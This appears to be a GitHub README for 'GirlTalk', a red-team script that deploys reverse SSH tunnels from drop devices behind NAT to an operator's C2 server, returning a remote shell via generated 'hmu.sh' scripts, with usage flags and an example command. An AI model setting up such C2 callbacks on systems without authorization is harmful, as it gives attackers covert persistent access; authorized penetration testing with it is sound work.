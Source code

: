 # README #
![Girltalk](/images/E3kGRY7WEAoMgMS.jpg)

GirlTalk is a script for rapidly deploying reverse SSH tunnels to remotely positioned devices.

### Updates ###
* Added multi-user support
* Scripting options to allow fine-tuning & easier operation
* Girltalk now supports AWS C2 deployments with the -a option

### NOTE! ###
This tool is freely licensed but I do not take any responsibility for whatever you choose to do with this.
Therefore, only use this tool in association with systems and networks you have explicit permission to operate on!

### What is this repository for? ###

The intent behind GirlTalk is to utilize as much native functionality as possible for creating reverse SSH tunnels.
By using native functionality, we can simplify the deployment of droppable devices. A side effect of this is that Girltalk is easily auditable.
Girltalk will give operators a route to a deivce that is not easily accessible, such as when a device is behind Network Address Translation (NAT).

### USAGE ###
Girltalk is currently compatible with the following options:
Key/Cert Mode options:
  -a	Boolean option for keyed C2 infrastructure (This option has been tested with AWS as the C2)
  -k    Full path of SSH key

Password Mode options:
  -c    C2 host
  -u	C2 username
  -l    Local username to use

usage:	 girltalk.sh -c <C2 hostname/IP> -l <local_username> -u <C2_username>
example: girltalk.sh -c host.aws.com -u ubuntu -l hatchetface -a -k ~/.ssh/amazon-keypair.pem

### How does it work? ###
Girltalk takes advantage of the standard functionality of openssh, but scripts out the process of orchestrating the connection between the "foothold" host to be deployed behind
NAT and the control infrastructure operators have configued.
![example diagram](/images/diagram.png)

### How do I get set up? ###
To get started, run girltalk.sh on the host you wish to have call back to your C2. Select all appropriate flags and include relevant info for contacting the C2 server.
If you have an AWS server acting as your C2, you should make sure that the -a option is selected.

Girltalk will place an access script onto the C2 host called 'hmu_user.sh'. Running this newly created script will transfer local ssh keys back to the foothold host and
immediately return a shell for the foothold device.

### Connecting to the deployable host ###
When girltalk.sh is done, a new script will be made available in the root directory of the C2 host called 'hmu.sh'. Run this script from the C2 host, input the password for
the account specified during girltalk runtime and you should have a shell on the remotely deployed foothold host without needing any unknown routing information from the foothold
host!

### Feature Roadmap ###
* Add support for new methods of reverse ssh (will add greater stability with autossh) - Next up!
* Added user versatility
* Keysize customization
* multi-foothold handling (Look out for news on ChurchInTheWild..coming soon!)

